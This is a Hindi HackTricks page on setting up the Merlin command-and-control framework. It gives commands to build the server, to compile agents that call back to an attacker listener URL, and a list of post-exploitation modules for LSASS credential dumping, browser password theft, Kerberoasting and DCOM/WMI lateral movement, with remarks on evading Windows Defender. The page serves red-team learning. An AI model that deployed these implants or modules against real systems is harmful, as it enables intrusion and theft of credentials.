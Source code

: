 <details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>


# स्थापना

## GO स्थापित करें
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## मर्लिन इंस्टॉल करें
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# मर्लिन सर्वर लॉन्च करें
```
go run cmd/merlinserver/main.go -i
```
# मर्लिन एजेंट्स

आप [पूर्व-संकलित एजेंट्स डाउनलोड कर सकते हैं](https://github.com/Ne0nd0g/merlin/releases)

## एजेंट्स संकलित करें

मुख्य फोल्डर _$GOPATH/src/github.com/Ne0nd0g/merlin/_ पर जाएं
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **मैनुअल कंपाइल एजेंट्स**
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# मॉड्यूल्स

**बुरी खबर यह है कि Merlin द्वारा प्रयुक्त हर मॉड्यूल स्रोत (Github) से डाउनलोड किया जाता है और उपयोग से पहले डिस्क पर सेव किया जाता है। जब आप प्रसिद्ध मॉड्यूल्स का उपयोग कर रहे हों तो सावधान रहें क्योंकि Windows Defender आपको पकड़ लेगा!**

**SafetyKatz** --> Modified Mimikatz. LSASS को फाइल में डंप करें और उस फाइल के लिए:sekurlsa::logonpasswords लॉन्च करें\
**SharpDump** --> निर्दिष्ट प्रोसेस ID के लिए minidump (LSASS डिफ़ॉल्ट रूप से) (यह कहा जाता है कि अंतिम फाइल का एक्सटेंशन .gz है लेकिन वास्तव में यह .bin है, लेकिन यह एक gz फाइल है)\
**SharpRoast** --> Kerberoast (काम नहीं करता)\
**SeatBelt** --> CS में स्थानीय सुरक्षा परीक्षण (काम नहीं करता) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> csc.exe /unsafe का उपयोग करके कंपाइल करें\
**Sharp-Up** --> C# में powerup में सभी जांचें (काम करता है)\
**Inveigh** --> PowerShellADIDNS/LLMNR/mDNS/NBNS स्पूफर और मैन-इन-द-मिडल टूल (काम नहीं करता, लोड करने की आवश्यकता है: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\
**Invoke-InternalMonologue** --> सभी उपलब्ध उपयोगकर्ताओं का अनुकरण करता है और प्रत्येक के लिए एक चुनौती-प्रतिक्रिया प्राप्त करता है (प्रत्येक उपयोगकर्ता के लिए NTLM हैश) (खराब url)\
**Invoke-PowerThIEf** --> IExplorer से फॉर्म्स चुराएं या उसे JS निष्पादित करने के लिए बनाएं या उस प्रक्रिया में एक DLL इंजेक्ट करें (काम नहीं करता) (और PS भी काम नहीं करता लगता है) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> ब्राउज़र पासवर्ड प्राप्त करें (काम करता है लेकिन आउटपुट डायरेक्टरी प्रिंट नहीं करता)\
**dumpCredStore** --> Win32 Credential Manager API (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> चल रही प्रक्रियाओं में क्लासिक इंजेक्शन का पता लगाएं (क्लासिक इंजेक्शन (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (काम नहीं करता)\
**Get-OSTokenInformation** --> चल रही प्रक्रियाओं और थ्रेड्स की टोकन जानकारी प्राप्त करें (उपयोगकर्ता, समूह, विशेषाधिकार, मालिक… https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class)\
**Invoke-DCOM** --> DCOM के माध्यम से एक कमांड निष्पादित करें (अन्य कंप्यूटर में) (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\
**Invoke-DCOMPowerPointPivot** --> PowerPoint COM ऑब्जेक्ट्स का दुरुपयोग करके अन्य PC में एक कमांड निष्पादित करें (ADDin)\
**Invoke-ExcelMacroPivot** --> DCOM का दुरुपयोग करके Excel में अन्य PC में एक कमांड निष्पादित करें\
**Find-ComputersWithRemoteAccessPolicies** --> (काम नहीं करता) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\
**Grouper** --> यह समूह नीति के सभी सबसे दिलचस्प भागों को डंप करता है और फिर उनमें शोषणीय सामग्री के लिए खोज करता है। (पुराना) Grouper2 पर एक नज़र डालें, वास्तव में अच्छा लगता है\
**Invoke-WMILM** --> बाद में चलने के लिए WMI\
**Get-GPPPassword** --> groups.xml, scheduledtasks.xml, services.xml और datasources.xml के लिए देखें और प्लेनटेक्स्ट पासवर्ड लौटाएं (डोमेन के अंदर)\
**Invoke-Mimikatz** --> Mimikatz का उपयोग करें (डिफ़ॉल्ट डंप क्रेड्स)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> कंप्यूटरों में उपयोगकर्ताओं के विशेषाधिकारों की जांच करें\
**Find-PotentiallyCrackableAccounts** --> SPN से जुड़े उपयोगकर्ता खातों के बारे में जानकारी प्राप्त करें (Kerberoasting)\
**psgetsystem** --> getsystem

**स्थायित्व मॉड्यूल्स की जांच नहीं की**

# सारांश

मुझे इस टूल की अनुभूति और संभावना बहुत पसंद है।\
मुझे आशा है कि यह टूल सर्वर से मॉड्यूल्स डाउनलोड करना शुरू कर देगा और स्क्रिप्ट्स डाउनलोड करते समय किसी प्रकार की चकमा देने की क्षमता को एकीकृत करेगा।


<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें।**
* **HackTricks** को अपनी हैकिंग ट्रिक्स साझा करके PRs सबमिट करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
